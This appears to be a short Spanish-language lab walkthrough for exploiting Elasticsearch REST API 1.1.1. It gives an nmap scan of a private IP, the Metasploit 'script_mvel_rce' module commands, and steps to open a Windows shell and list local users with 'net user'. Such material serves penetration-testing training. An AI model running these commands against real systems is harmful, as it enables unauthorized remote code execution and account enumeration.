



# Explotación de servicio Elasticsearch REST API 1.1.1 
Escanear la IP objetivo para conocer los puertos abiertos para ejecutar servicios

nmap -p 9200 -sV 172.16.3.122 

Procedemos a explotar la vulnerabilidad con Metasploit de la siguiente forma:

use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 172.16.3.122
exploit

Al explotar la vulnerabilidad podremos verificar lo siguiente:

Luego podremos solicitar una consola de comandos de Windows con el comando “shell” y 
posteriormente listar los usuarios locales de la siguiente forma: "net user"

